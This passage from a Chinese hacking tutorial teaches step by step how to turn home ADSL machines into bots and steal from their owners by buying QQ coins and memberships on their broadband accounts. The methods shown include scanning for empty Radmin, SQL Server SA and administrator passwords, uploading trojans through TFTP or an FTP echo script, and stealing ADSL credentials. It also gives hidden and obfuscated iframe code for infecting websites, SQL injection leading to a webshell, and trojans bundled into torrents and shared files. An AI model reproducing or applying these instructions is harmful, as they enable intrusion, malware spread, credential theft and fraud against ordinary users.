后回车，程序就会开始自动扫描了，如图2。我们可以喝上一杯茶，然后再回来看扫描后的结果，要是扫描到后，程序会自动将结果显示出来，如图3。

是不是发现在动态 IP 段中有相当多的机子都装了 Radmin 啊！一般这些空口令都是菜鸟入侵后留下的，想想看一个对网络安全有了解的人会直接把 radmin 的端口设置为 4899，并且还不设置密码吗？这不等于就是把肉鸡共享出去吗？所以大家在配置 Radmin 的时候记得一定要加上密码，还有改掉默认的端口！由于我扫的 IP 段很大，等了很长时间，如图4。

扫到了开放 4899 的主机上万台，就靠这个数字我就能猜到其中没有设置密码的最少不下 50 台，不信？一会儿你就知道了！我们打开与 s.exe 在同一目录下的 Result.txt，做一点修改，然后导入 4899 扫描器中，将最上面的一句去掉，如图5。

然后选择窗口上面的“编辑”→“替换”，在查找内容中输入 `4899 Open`，在“替换为”中什么也不输入，然后点击右边的“全部替换”，如图6。

这样就得到了一个全部是IP的文本，然后保存，再打开4899扫描器，点击中间的“导入IP地址”，如图7。根据你的宽带情况设置一个线程，点击左边的“开始搜索”，扫描器就会自动搜索出所有密码为空的4899肉鸡了，如图8。

很快就有显示了，来看看吧，如图9。

我们点击上面的那个“导出空口令主机”，将所有扫描到的肉鸡导出，再来拿出radmin连接器挨个试试，看看是不是ADSL肉鸡，进入后，我们要先将自己配置好的radmin上传上去再运行，这是为了不让别人再进来占有我们辛辛苦苦弄到的肉鸡，如图10。

或者导入你配置Radmin时的注册表文件，如图11。

运行后，空口令的Radmin马上要求输入密码了。我们来找一台ADSL的，试试能不能充。首先上传我们制作好的获取ADSL密码的东西，如图12。再到radmin的“远程telnet”下运行它，直接输入你程序的名字即可运行了，运行后再输入`dir`，看看是否生成保存帐号密码的html文件，如图13。成功生成，我们用文件管理将它从肉鸡上下载下来，双击打开，如图14。

帐号密码尽收眼底了！下面就是开启代理了，上传 `http.exe` 到对方任意目录下，然后 telnet 上去用 `CD` 或者 `cd.` 切换到 http 所在目录下，运行 `http 1111`，如图15。不要关闭这个 DOS 窗口，要是关闭了刚刚开的 http 代理就不能用了。来试试是否开启成功，我们打开 IE，选择上面的“工具”→“internet 选项”，在弹出的“internet”选项中，将其切换到“连接”选项卡，点击下面的“局域网设置”，如图16。

弹出设置窗口，在下面的“lan 服务器”前打勾会看到下面的地址以及端口变为可写状态，在其中输入刚刚开启的 http 代理的 IP 以及端口，如图17。

OK 后，点击确定，打开 internet 选项，我们输入 `www.ip138.com`，看看 IP 是否改变，其实直接访问互联星空也可以，只要在应用代理后，能打开网页就说明代理开启成功！代理开启成功，我们访问 `www.china.com`，登录看看还有多少钱，还有100元！如图18和19。

这次我们不充 QB 了，给自己加个会员看看，登录 `http://qq.chinavnet.com/`，选择左边的“会员”，来到 `http://club.qq.com` 登录你要充会员的 QQ 号码，选择中间的那个，如图20。

接着来到一个选择界面，我们选上“宽带上网帐号（中国电信宽带互联星空用户）”，下面会出现一些地区让你选择，如果没有你充的城市，那么你就选择全国中心，如图21。点击“下一步”，来到确认充值页面，现在只要点下面的确认按钮，你就能马上成为 QQ 会员了，如图22。点击后等待了30秒左右，具体要看你代理的网速如何了，出现如图23的包时段成功对话框，确定之后来到如图24。


## 6.9 从后台到QQ会员

成功开启服务！这里还要说明一下：一般利用互联星空充的会员、黄钻、红钻、网络硬盘等等的一些服务，都是自动续费的，除非你自己或者宽带账号的本人将它停止，否则它会自动续包下去！接着干什么不用我说了吧！

记得SA弱口令是我最早用来充QB的方法，虽然比较麻烦，而且很多都是没有ADSL账号密码，因为不是ADSL上网，但是总体来讲效率还是蛮可观的，一天可以弄到2台ADSL肉鸡，记得当时最多的一次我充了500个QB！

好了，这里用到的是一款针对SA空口令的扫描器——“Windows NT2000自动攻击探测机”，当然它不仅仅可以扫描SA空口令，还有很多强大的功能。我们运行那个地雷图标的Windows NT2000自动攻击探测机，界面如图1。

运行后，它会在同目录下生成四个文件，这些文件就是Radmin的服务端，主要是为了配合探测机中的“上传并安装远程控制软件”这个功能的。我们不用它自带的Radmin，可以看前面的Radmin配置来打造一个属于自己的Radmin。

接下来就是填写IP段了，我们用QQ代理公布器来查找一个ADSL网段，我这里找100元的地区——“陕西”，在“查询字段”中输入“陕西”，点击右边的“查询”，马上可以看到下面出现很多陕西的IP段，如图2。

随便从其中找一个陕西ADSL的IP段出来，范围要大一些，我这里用“219.144.1.1－219.145.255.255”这个IP段来查找，在Windows NT2000自动攻击探测机中输入起始IP：219.144.1.1，结束IP：219.145.255.255。IP段填好了，但是先别急着点击下面的“扫描”，我们将探测机中的选项卡切换到“SQL漏洞”中来，在其中只选上“列出密码为空的SA账号”，如图3。

设置好了，我们点击左边的“开始”按钮，程序就会自动扫描开放1433端口的机器，并且探测SA账号的密码是否为空，一会儿的功夫就能看到探测机右边的“存在问题主机列表”有显示了，如图4。我们从中随便选择一个，然后拿出“SQL综合利用工具”，为什么不用探测机自带的SQL连接器呢？因为那个没有文件上传的功能，而且容易出错，所以不用它。双击运行SQL综合利用工具，在弹出的窗口中我们填入刚刚扫到的一个IP，如图5。

其它的使用默认设置就可以，如果成功连接，下面会提示“连接 SQL server：成功”的字样，如图6。下面派上用场的就是我们前面打造好的——RADMIN。我们选择“SQL 综合利用工具”上面的“利用目录”→“上传文件”，如图7，接着出现上传文件的窗口，我们选择配置好的 Radmin，再填上远程上传后保存的地址，这里我填“C:\RADMIN.exe”，如图8。点击“上传”即可开始上传文件，成功后下面会提示“文件上传成功”的字样，下面再来看看文件是不是上传上去了，选择连接器上面的“利用目录”→“执行DOS命令”，弹出的窗口中我们输入 `dir c:\`，就是浏览 C 盘下的文件，我们刚刚将文件传到 C 盘下了，所以浏览 C 盘下看看是否上传，如图9。

可以看到这里并没有上传的文件，先别急着放弃，SQL 综合利用工具是靠数据库来传送文件的，要是数据库做了限制，自然会上传不成功。我们还可以用 TFTP 以及 FTP 来上传，先试试 TFTP，打开 TFTP.exe 在本地建立一个 tftp 服务器，将我们配置好的 radmin 一定要放到跟 tftp.exe 同一目录下，才可以上传成功，如图10。然后在 SQL 综合利用工具的“执行DOS命令”中输入：`tftp -i 你的ip get radmin.exe`，再点击“执行”，过了很久也是没有反应，看来 tftp 上传也是失败了！

还有 ftp，马上打开灰鸽子，里面有一个 ftp 服务器，可以将本机暂时做成一个 ftp 服务器，选择主目录为你存放 radmin.exe 的目录，如图11、图12。端口改成 21，帐号密码我都输入的是“aa”，注意要先关掉你的防火墙，然后在 SQL 综合利用工具中执行窗口下一行一行的输入下面的命令，如图13。

```
bash
echo ftp>test.txt
echo open 你的ip>>test.txt
echo aa>>test.txt
echo aa>>test.txt
echo get RADMIN.exe>>test.txt
echo bye>>test.txt
```

最后输入 `ftp -s:test.txt` 来开始下载本地的 radmin.exe，看看灰鸽子的 ftp，如图14。马上有反应了，再看看命令执行后回显，如图15。

## 第六章 QB充值大曝光

输入 `\winnt\system32\radmin.exe`，查看木马是否已上传成功（如图17）。运行前先删除上传测试文件 `test.txt`，以免暴露IP信息。可执行命令如：`del c:\winnt\system32\test.txt`。

```
bash
del c:\winnt\system32\test.txt
start c:\winnt\system32\radmin.exe
c:\winnt\system32\radmin.exe
```

执行后可通过 radmin 连接器进行连接，弹出密码输入框说明木马已成功植入。接下来满足“QB流程”的第一条：获取ADSL账号密码。将前文制作的一键获取程序上传到目标机，例如 `c:\temp\adsl.exe`，再通过radmin/telnet进入目录执行。

这说明上传成功。文中说明了 ftp/tftp 默认上传位置通常在 `system32` 目录。可先查看系统版本与目录信息，如输入 `type c:\boot.ini`、`dir c:` 等（见图16）。

| 序号 | 账号/连接项 | 用户名 | 密码 |
|---|---|---|---|
| 1 | adsl | （已脱敏） | （已脱敏） |
| 2 | adsl | （已脱敏） | （已脱敏） |
| 3 | adsl | （已脱敏） | （已脱敏） |
| 4 | adsl | （已脱敏） | （已脱敏） |

由此满足第一条条件后，文中继续说明第二条（IP相关）操作：上传 `http.exe` 到目标 `c:\temp`，再用远程telnet开启代理监听（示例：`http 1111`），并保持监听窗口不关闭，等待连接（后续见图23、图24）。

```
bash
cd \temp
adsl.exe
dir
http 1111
```

整整100元，我们来充QB，在主页的中下部可以找到QQ直通车，点击后就开始充了，或者直接输入网址http://qq.chinavnet.com，即可在其中输入你要充的QQ号码，如图28。点击下面的“立即充值”来到图29所示的界面。

在TT中记得勾上刚刚设置的代理，如图25。现在登录互联星空，在其中输入刚刚获得的ADSL帐号密码，如图26。

还不赶快点击“确定”，经过紧张的等待，终于看到了激动人心的画面，如图30和图31。可以马上去看看QQ帐户余额是不是充值成功了？

点击“登录”，登录成功自动返回主页，我们马上点击主页上面的“我的星空”看看里面还有多少钱，如图27。

这篇文章给大家详细介绍了利用SA充值QB的全过程，其实现在ADSL中SA空口令的机子还是很多的，大家赶快去发现吧！要是晚了可能被人充完了！

## NT弱口令充QB

继续教菜鸟朋友们简单的充QB方法，这里只是思路罢了！这回我们用NT肉鸡弱口令来充QB，这个方法有一定的要求，就是你的网络必须畅通，而且没有关闭IPC$连接。由于我这里网络不知道什么原因，根本扫描不到什么弱口令，所以我在肉鸡上做演示。现在ADSL网段的administrator用户密码为空的情况太多了，可以扫到很多很多的！

### 来看看需要的工具：

- 1）H D网络工具包，利用它里面的“肉鸡查找”功能；具体怎么用大家可以去网上找找，里面绝大多都有详细说明。
- 2）配置好灰鸽子服务器。如何配置可以参考前面的文章。为什么不用Radmin呢？因为空口令大多都装XP，有防火墙，用灰鸽子直连的话控制可以轻松拿下。

打开啊D网络工具包，切换到“肉鸡查找”功能板块，如图1。先简单的设置一下，点击左下角的“设置”，在弹出的“用户名密码设置”中将“只猜测Administrator账号”前面的勾勾上，这样可以提高一些速度，只猜测它就是够了，别的就算猜到也没有权限。你还可以增加一些自己认为比较常用的密码，如图2。

然后点击“关闭”，就能让设置生效了。下面就是要选择一个ADSL网段了，如果你是ADSL用户的话可以直接填入你所在的整个IP段进行扫描，还可以用“QQ代理公布器”来查看一些地方的ADSL网段是多少，如图3和图4。填好扫描范围后，我们就能点击右边的“开始扫描”来进行扫描了，你可以先去干一会别的事情了，很快马上就显示出来了几个，随便选择其中一个，如图5。

我们开始给它“喂”我们准备好的鸽子，在选中的IP地址上面右键单击选择“木马（IPC$）种植机”，如图6。弹出IPC$种植机后，大家要先看看对方是否开放了共享，如图7。要是没有开放的话，就不能……

上传我们的鸽子，不过我们能够给它开启，点击中间的“检测共享”，过一会儿就会弹出对方主机开放共享的情况了，如图8。

下面更新一下IP到自己这里，等待它的上线，过了一分钟左右，我们的肉鸡上线了，如图11。下面开始试试能不能充QB，我们用灰鸽子上传，关闭XP防火墙的小东西xp.exe，上传成功后刷新一下看看，如图12。找不到上传的xp.exe，怎么办呢？对了，对方有杀毒软件，既然这样我们先中止掉杀毒软件再来上传，打开灰鸽子的“远程控制命令”→“进程管理”→点击右边的查看进程，就能列出对方所有的进程了，如图13。

这台电脑没有关闭默认共享，在“本地文件”中选择我们的鸽子，下面的“复制位置”是默认上传到对方的系统目录system32下，选择好后，点击下面的“开始”，软件会自动建立IPC$连接，并且将鸽子复制到对方的系统目录system32下，再用at命令添加计划任务来运行它，如图9。如果成功，会弹出提示说一分钟后运行，如图10。

将杀毒软件的进程中止掉，这台电脑使用的是东方卫士，如果不知道哪些是杀毒软件的进程的话，可以将不是系统进程的全部中止掉，下面为了方便大家对比，我给出系统关键进程的表，除了下表出现的进程不能中止外，基本上其他的进程都可以中止：

| 系统进程表 | 说明 |
|---|---|
| smss.exe | Session Manager |
| csrss.exe | 子系统服务器进程 |
| winlogon.exe | 管理用户登录 |

## 第六章 QB充值大曝光

- 4. services.exe ...
- 5. lsass.exe ...
- 6. svchost.exe ...
- 7. svchost.exe（SPOOLSV.EXE）...
- 8. internat.exe ...
- 9. mstask.exe ...
- 10. regsvc.exe ...
- 11. winmgmt.exe ...
- 12. inetinfo.exe ...
- 13. tlntsvr.exe ...
- 14. ftpd.exe ...
- 15. cisvc.exe ...
- 16. dns.exe ...

代理开启功能，打开“远程控制命令”→“代理服务”→在“服务端口”中输入端口，然后点击“开始服务”（图15）。左边窗口提示HTTP代理开启成功。随后在TT浏览器“工具”→“WWW代理”→“设置代理”中输入代理IP与端口（图16），确定并勾选代理（图17）。访问网站后IP变化，再将前面制作的ADSL账号密码读取工具上传并远程打开，刷新后出现dialup.html，右键“本地打开”查看账号密码（图18、图19）。

按照上面的列表将多余进程终止后，上传xp.exe并右键选择“远程打开”→“隐藏运行”（图14）。提示远程打开成功后，说明程序已运行。随后继续使用灰鸽子自带功能进行后续操作。

现在 IP 以及账号密码都有了，我们马上去充 QB，输入 vnet.qq.com 打开后选择上面的“宽带充值”，如图20。在下面输入你的 QQ 号码，“请选择省份”，如果没有肉鸡所在的省的话我们就选择“中心”，如图21。

然后点击“立即充值”，来到互联星空登录页面，我们填上刚刚获得的账号密码以及肉鸡所在的省，如图22。点击“登录”，来到充值确认页面，如图23。

点击“确定”，等待一会儿，弹出充值成功的对话框，如图24。确定后跳转到图25的界面。OK，成功充了10个QB！

## 菜鸟利用网络硬盘传肉鸡发QB

如果你是一个刚刚入门却又不会什么网站挂马、网站入侵之类的东西！也不懂什么叫做SA弱口令，可是却又天天想着刷QB，那么试试这个超级简单的方法吧！主要是利用网络硬盘的共享功能！

首先申请一个新的QQ号，可以把它弄成女号也可以是男号，随个人爱好了，再来看看需要的工具——“QQ消息群发王破解版”！

可能有些菜鸟不明白，你不是说了是利用网络硬盘吗？要这个干什么？虽然利用的是网络硬盘但是你的网络硬盘共享功能是面向你的QQ好友，没有好友你怎么利用呢？利用QQ消息群发王里的自动加好友功能，我们就能自动加入很多好友了，然后将我们的木马与一些比如Flash捆绑一下共享出去，在起个好听的名字，比如“瑞星破解注册文件”等之类的！

双击打开“QQ消息群发王”界面如图1，先来设置一下，点击上面的“设置”按钮，输入你刚刚申请的QQ号码以及密码，再选择下面的QQ程序路径，其它的默认就可以了，如图2。然后点击保存出现，如图3。我们点击“确定”，关闭软件重启一下让设置生效，下面来看看如何批量好友。

## 第六章 QB充值大曝光

先来简单设置一下，在工作模式中选择为“手动工作模式”，因为我们只是加好友不是发消息，下面选择上“查找添加好友”，中间的“工作选项”将“不发送验证消息”前面的勾去掉，发送次数设置为1，在下面的“验证消息内容”中我们输入“你好，我第一次用QQ，你是我加的第一个人。”，最右边我们选上加好友的范围，选择一个“省份”，可以选择一个互联星空消费额比较高的地方比如山东等省，下面的随便选，如果你是女号那么最好选择加的性别是男，不是则反之！设置好后，如图4。

接下来我们点击左上方的开始按钮后软件会自动登录你的QQ，然后开始群加好友了，如图5。你要做的就是等待对方给你发回来的验证消息了！另外要注意的是你可以将自己的网络安全中设置成允许任何人加为好友！当好友数量加到很多的时候，我们就开始打造我们的共享了，用前面的方法配置出你的灰鸽子，再用灰鸽子万能捆绑器，如图6。

将灰鸽子以及一个小的Flash，当然也可以是其他别的东西，捆绑好后传到你的QQ网络硬盘上起一个诱人一点的名字，如图7。再将这个文件共享给你的所有加的好友，如图8和图9。最后点击设置，这样就一切OK了，你可以等待别人点击了！

其实这个方法主要利用社会工程学以及人性的一些弱点，看到诱人的东西就打开看看！利用这个方法我还真充到了100个QB！

### 挂马系列之网页木马总攻略

由于网站挂马牵扯到网站入侵，而网站入侵的方法是各种各样的，非常的灵活，不是一两篇文章就能教会大家如何入侵的，所以先写挂马的基本功——“网页木马制作”。这里我将几款主流的网页木马制作方法介绍给各位菜鸟朋友，好了废话不多说了，我们开始。

### 一、Sp2 网页木马生成器

这款网页木马是现在挂马者使用频率最高的网页木马了，它可以用工具生成也可以自己手动来修改文件，手动修改文件也是简单的！来看看这款网页木马的文件，它需要 3 个文件：

- index.htm：这个名字随便起，但是 html 结尾的我都以它称呼
- bbs003302.gif：这个名字不能改，我们也不用修改它，是经过加密的
- bbs003302.css：这个是木马文件

首先按照前面文章中的方法配置出一个自己的灰鸽子，我将它改名为 ie.exe，然后将这个 ie.exe 木马文件改名为 bbs003302.css，注意文件名必须是 bbs003302.css，后缀不能是 exe，将这个 bbs003302.css 覆盖掉木马文件中的 bbs003302.css，将网页木马的三个文件放到一块儿，如图1，然后右键单击那个 index.htm 弹出的菜单，选择打开方式为记事本，如图2。打开后找到这么一句 `<SCRIPT language=JScript src=\\\`，如图3。

后面引号引起来的地方就是写你要放网页木马的网址，注意这里要写 bbs003302.gif 这个文件的网址，比如：`<SCRIPT language=JScript src=\\\"http://ovepao.go2.icpcn.com/xp/bbs003302.gif\\\"`，网址后面的符号不能去掉，如图4这样写是正确的。

一个突破 WinXP+SP2 的网页木马就制作好了！将它上传到你刚刚填写的网址的空间去，注意：三个文件要放在同一目录下才可以！没有空间怎么办呢？大家可以去“中国免费资源网” http://www.jn001.net/ 找一个免费的 ASP 空间。访问刚刚制作的 index.htm 这个文件就会中我们的网页木马了！这款 SP2 的木马制作就讲到这里！

#### 二、专业版网页木马生成器

这款网页木马是冰狐狸浪子比较新的一款网页木马，它利用的是 IE 的 IFRAME 溢出而且与 CHM 漏洞融合为一体，在 Win98、Winme、Win2000、Winxp sp1 系统 IE6.0 下顺利通过！杀伤力还是很强的！

首先你要有一个支持 html 的空间用来放网页木马，你可以去 http://www.jn001.net/ 中国免费资源网找一个。我们打开网页木马的配置端，如图5。这里的选项基本上使用默认的即可，然后将你的木马程序传到空间上，在“木马程序路径”中填上你的木马的 web 路径，如果怕出错可以在浏览器打开看看能否下载，在生成网页名中你可更改生成后的为网页木马名称，可以改成一个迷惑一点的比如 music.htm 之类的迷惑人的。

名字，下面的那个内存选项默认即可，在“输入你的木马程序名称”中写上你的木马的名字，这里注意是：你要先把你的木马放到生成器同目录下的 CHM 目录里，然后在这里输入你木马的名字，下面的 CHM 文件名就是生成 CHM 文件后的名字，我们还是遵循迷惑人的起名原则，下面的“CHM 完整路径”的意思就是你存放生成的 CHM 文件的 WEB 路径，跟前面的木马程序路径是一个道理的，大家还不懂的话可以看看，如图 6。

一切 OK 后我们点击下面的“生成”按钮，这样在生成器目录下就生成了 3 个文件，如图 7。将这生成的 3 个文件上传到你的空间，记住要放到同一目录下面才可以，然后输入生成的网页的 web 路径，就会中我们事先准备好的木马了！

#### 三、冰狐浪子超级网页木马生成器

这款木马也是网上使用比较多的，不过较前两种来看，功能没有它们强大！

来看看到如何配置，解压后会看到只有一个文件，冰狐浪子超级网页木马生成器.jse，如图 8。双击这个冰狐浪子超级网页木马生成器.jse，等待一会儿会看到“冰狐浪子超级网页木马生成器.jse”，同目录下自动生成了三个文件分别是：

1. `icyfox.htm`：经过加密的。
2. `#`：这个文件没有大小，一会换成你的木马。
3. `icyfox.ini`：这个不用修改。

删除“#”这个文件，我们再将配置好的灰鸽子重命名为“#.exe”，复制到这个目录下，将这三个文件（`icyfox.htm`、`#.exe`、`icyfox.ini`）上传到你的空间，访问其中的 `icyfox.htm` 就会中我们的灰鸽子了！最后我要说明一下，由于网页木马都是利用微软 IE 的漏洞，所以大家不要以为网页木马是万能的，只要你升级了 IE 及时打上了补丁，那么就不会中马了！

### 挂马时的几个技巧（6.13）

挂马是充 QB 最有效的途径，下面就给拿到 webshell 的哥们介绍几个我自己挂马的技巧！

### 1. 巧用 “include file”

不知道大家注意过没有，一般如果是 ASP 的网站那么他的主页文件（index.asp）的最上面都会有这么一句之类的话：`<!--#include file="conn.asp"-->` 如图 1。

其实仔细观察，你会发现几乎所有的 ASP 文件在开头都会调用同样的一个文件比如：`<!--#include file="inc/conn.asp"-->`，学过 ASP 的朋友应该知道，这是在页面打开后先调用 `conn.asp` 这个 ASP 文件中的内容！一般网上的文章都是教菜鸟们如何在 `index.asp` 文件最后插入一句调用木马的框架语句，可是这样也太显眼了吧！这回我们不在这里插入，首先你要大体的看一下，该网站下的 ASP 文件基本上都会调用那个 ASP 文件，比如说，要是 ASP 文件中几乎都有这么一句：`<!--#include file="inc/const.asp"-->`，那么我们就来到 `index.asp` 所在目录下的 `inc` 文件夹中，找到 `const.asp` 这个文件，再用编辑器修改。

件的功能对它进行编辑，如图2。打开后我们在这个文件中最后插入我们的挂马代码，比如：

```
<iframe src="http://www.test.com/music.htm" width="0" height="0" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

如图3所示，再点击下面的“保存”，经过这样的挂马，不管别人打开哪个ASP文件只要调用了const.asp这文件，都会中我们的木马了！

#### 2. 挂马代码加密后插入

这是什么意思呢？这个方法是我前些日子在做自己的html网站的时候发现的，跟着我一步一步来做吧！首先右键单击新建一个文本文件，然后双击打开在其中输入你的挂马代码，比如：

```
<iframe src="http://www.test.com/music.htm" width="0" height="0" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

然后将它另存为1.html，如图4。

打开这个html文件后就会自动跳到我们的网页木马网址了，接下来就是给这个1.html加密了，双击打开加密器，界面如图5。在“源文件”中选择刚刚做的那个1.html，“目标文件”写上一个保存路径（我保存到桌面上名为2.html），再点击下面的“加密”，如图6。

加密好了，马上来看看，用记事本打开2.html，如图7。你可以自己试试双击这个2.html看是否能够跳转到网页木马的网址，下面来做一点修改以方便挂马时使用，将最上面的“<HTML>”、“<HEAD>”还有最下面的“</HTML>”、“</BODY>”、“<BODY>”、“</HEAD>”全部去掉，留下图8的部分，将这段加密后的代码复制：

```
<SCRIPT LANGUAGE="javascript">
<!--
var Words="%3Ciframe%20src%3D%22http%3A%2F%2Fwww.test.com%2Fmusic%2Ehtm%22%20width%3D%220%22%20height%3D%220%22%20frameborder%3D%22no%22%20border%3D%220%22%20marginwidth%3D%220%22%20marginheight%3D%220%22%20scrolling%3D%22no%22%3E%3C%2Fiframe%3E%0D%0A";
function SetNewWords() {
  var NewWords;
  NewWords = unescape(Words);
  document.write(NewWords);
}
SetNewWords();
// -->
</SCRIPT>
```

插入到网站的主页中试试看，是不是成功打开了你的木马网页了？

### 3. 利用js文件挂马

利用JS文件挂马，好处就是比较难发现，并且跟第一种方法差不多，基本上网站的很多ASP文件都会调用这个js文件。要是在js文件中插入我们的马，基本上全站都会被挂上马了，任何人访问任意一个ASP页面我们的网页木马都会被打开……一般调用js文件的代码都是：`<script language="javascript" src="inc/Dv_Adv.js"></script>`。进入inc目录下找到Dv_Adv.js这个文件，用编辑功能打开它，在其中插入代码：`document.write('<iframe height=0 width=0 src="http://www.test.com/music.htm"></iframe>');`，其中网址替换为你的网页木马地址。

图 9

图 10

图 11

然后点击下面的“保存”，打开主页，试试看是不是成功调用了我们的网页木马网址！

### 菜鸟批量网站挂马

如果各位菜鸟想挂马充QB的话，建议先看看我给大家收集的各种网站系统漏洞利用动画，然后下载一套存在漏洞的网站系统，以其中关键词到baidu搜索，你会发现很多存在漏洞的网站。

下面介绍一款挂马必备工具——“旁注web综合检测程序”。虽然它不能像高手那样单点入侵，但可以帮助新手批量获取webshell。将拿到的webshell挂上马，依靠数量也能达到效果。

开始实战：先在baidu中输入关键词（如“下载”）搜索，挑选目标网址（图1、图2），再在旁注检测综合程序中输入网址并解析IP（图3），点击查询后即可绑定网址（图4）。接着扫描是否存在漏洞页面，例如上传漏洞等。

页面，那我们再来看看有没有默认数据库，还是什么也没有，如图5。很多人到了这一步没有什么结果就放弃了，先别急，我们还有很多漏洞都没有检测这么早放弃也太没有毅力了，再来扫扫有没有后台，选上旁注下面的“后台”，如图6。点击“开始检测”，哈哈，这回被我们发现了一个后台，如图7。可能有人会问，发现一个后台有用么？当然有用了！要是这个后台存在验证不严的漏洞，那么我们不就直接能弄到webshell了？右键单击这个网址选择“打开网址”，如图8。来到管理员登录页面，如图9。

我们试试有没有验证不严的漏洞存在，在用户名还有密码中都输入：'or''='，如图10，再点击下面的“登录”，提示“用户名或密码错误！”，看来运气不怎么样，如图11。

没有验证不严的漏洞存在！那就放弃！还有一个漏洞没有检测过，就是注入，我们继续用“旁注综合检测工具”，在它上面的“当前路径”中输入网站的网址，点击右边的“连接”，这样程序就会自动打开这个网址并且检测网页上的所有连接是否存在SQL注入，哈哈，果真有啊！如图12。我们选中下面的一个注入点，然后右键单击选择“检测注入”，如图13。来到“SQL注入猜解检测”页面中，如图14。点击上面的“开始检测”看看到底存在不存在注入漏洞，如图15。

## 第六章 QB充值大曝光

存在注入，从程序的判断可以看出是ACCESS数据库，我们马上开始猜解数据，先猜解“表名”，点击上面的“猜解表名”程序就会自动开始猜解了，很快就猜到一张管理员表，如图16。我们选中这个admin的表，再点击中间的“猜解列名”，过上一会儿结果就出来了，如图17。重要的字段都猜到了：username、password、id，非常正规的3个字段，将它们前面的勾全部勾上，再点击猜解内容，如图18。程序开始自动猜解了，猜到的结果会在下面显示出来的，如图19。

是MD5加密的，我们来破解，一般这种网站管理员的密码70%是纯数字或者纯字母的组合，破解起来也比较快，先看看是不是弱密码，复制MD5的加密数据，粘贴到“MD5密码转换器”中，如图20。点“字典还原”看看是不是弱密码，如图21。既然跟账号一样，我们马上到刚刚扫到的管理员登录页面用这个账号密码登录进去，哈哈，成功进入，如图22。

到处看了看，发现有上传但是没有数据库备份或者还原的功能，试试能不能直接上传ASP。我们在“产品添加中”选择一个ASP文件点击“上传”出现如图23的对话框，更郁闷了，看到上面写着ASP却传不上去，晕死我了，再试试给ASP文件后面加上一个空格，点击上传还是不行，我就不信了，继续找上传，这回终于让我给找到了，在“资源下载添加”中有一个上传选项，我们选上一个ASP文件点击上传，弹出如图24的对话框。

试试在要上传的ASP文件后面加上一个空格，再点击“上传”，成功了，如图25。我们看看传到哪里了，如图26。点击这个连接来到我们的shell下，图27是成功获得一个webshell，下面就开始挂马，当然你也可以选择进一步入侵来得到admin的权限，这个不在本文的讨论范围内，感兴趣的朋友可以自己试试！

选择磕阳的“FSO 文件浏览操作器”去它的站点根目录下挂马，如图28。先看看主页，如图29。看到这句没有：“inc/conn.asp”，我们不将马挂到主页上，我们去inc目录下找conn.asp这个ASP文件，然后点击编辑对它进行编辑，利用前面教大家的挂马技巧，将我们加密好的挂马代码保存进去，如图30。

这样基本上所有的ASP页面都被我们挂上马了，打开网站上的任何一个连接都会中马！好了，我们的挂马任务就圆满完成了。利用这个方法可以得到很多的webshell，虽然访问量不是很大，可是前面我说过，咱们菜鸟靠的是数量，不是访问量！还不赶快带着“旁注web综合检测程序”去挂马！

## 最新ADSL肉鸡捕获—BT共享

最近发现了一招菜鸟捕获ADSL肉机的好方法，确实很管用！利用BT制作一个BT的种子，再通过BT发布网将它发布出去，同时还要再到一些人气很旺的BT论坛，发布我们做好的种子，这样几个小时下来就能得到N多肉鸡了！

心动了吧！俗话说得好“心动不如行动”，来看看需要什么工具吧！既然要制作BT种子，那么肯定少不了制作种子的软件了，它就是——“BitComet”。再看看制作种子前需要什么？BT是一个下载大软件或者大的电影时使用的，这样的话我们就必须要找一些大一点的东西，再制成BT的种子再共享出去。

将其中“创建自解压格式压缩文件”前面的勾勾上，然后切换到“高级”选项卡选择“自解压选项”，弹出“高级自解压选项”，这里只在“解压后运行”中输入我们的木马的文件名，如图3。其他的不用管了，可以选择一个好看一点的图标，点击“确定”生成我们制作好的自解压，一定要起一个诱惑的名字，如图4。

我这里选择的是几个电影放到一起，还要将你的灰鸽子以及这些要共享的电影全部选择，右键单击选择“添加到压缩文件”，如图1。弹出“压缩文件名和参数”的窗口，如图2。

共享的东西制作好了，下面开始安装 BitComet，安装过程很简单，选择一个安装路径后即可安装好。安装完成后，我们运行桌面上的 BitComet.exe，如图5。来看看如何制作一个种子吧！

点击 BitComet 左上方的“制作按钮”，如图6。

弹出“制作 Torrent 文件”窗口，最上面是选择要共享的文件，就是我们刚刚制作的那个文件，点击“浏览”选择上我们制作好的自解压，下面的选项默认就可以了，如图7。

下面到了关键，就是这个“Tracker 服务器及 DHT 网络节点列表：”，这个刚开始我根本就不知道填什么，最后在一个 BT 发布网的发布种子的页面看到了之后才搞明白，这个地址不能用默认的，要根据你在哪个网站发布的来填写，很多 BT 发布网在发布种子的时候都需要账号密码，而账号密码必须通过你给管理员发送消息，说明你的发布情况才会给你，很麻烦，我找了一些人气不错，而且发布种子时不需要填写账号密码的 BT 发布网，发布地址是：

```
http://bt.eastgame.net/upload.html
http://www.gamesir.com/ShowTopic-496962-1-43.html
http://bt.greedland.net/post.php
http://www.imagegarden.net/bt/newtorrent.php
http://bt.99share.com:8080/upload.php
http://bt.bestmovie.cn/upload.php
```

有些需要注册后才能发布，这里用 http://bt.eastgame.net/upload.html 这个地址做示范，打开这个发布页，如图8。网页下面的“制作.torrent 文件的 announce url 后面的就是要填到‘Tracker 服务器及 DHT 网络节点列表：’中的网址了，我们复制下来，粘贴上去，再选择 BT 种子保存地址，如图9。

“确定”后即可制作好了“.torrent”结尾的种子文件了，再来到发布页，最上面选择“torrent 文件”，选择我们制作好的种子文件，下面的“文件类别”根据你要发布的东西选择，要是电影就选择“影视”，软件则选择“软件”，“文件名称”就是别人看到你发布文件的名字，这个直接决定肉鸡的多少，所以一定要起的诱人一些，“文件介绍”就是对你发布的东西的一个简单介绍，随便介绍一下就可以了，“讨论网址”不用写，“上传者名称”这个随便写一个，“上传者密码”不用填写，一切填好后如图10。然后点击发布，如图11。

这里一定要注意，在发布成功后，你必须要马上回到 BitComet 中，在上面你会看到刚刚发布出去的文件，右键单击这个文件选择“开始”，如图12。

现在就开始“做种”了，当连接上 BT 服务器后，只有做种时间大于 3 分钟，系统才会将你的种子发布出去，所以大家不要看没有反应，就关了 BitComet，这样就前功尽弃了！来看看我几个小时下来的成果吧，如图13。

这些仅仅是发布了一个种子后的成果罢了！还不赶快动手制作？有了这些肉鸡找出其中是 ADSL 的，并且具有公网 IP，我们就能按照前面的方法开始充 QB 了，先关防火墙—获取 ADSL 帐号密码—开它代理—登录 www.chinavnet.com，开充！

## 利用 ADSL 充灰鸽子 VIP 到记录

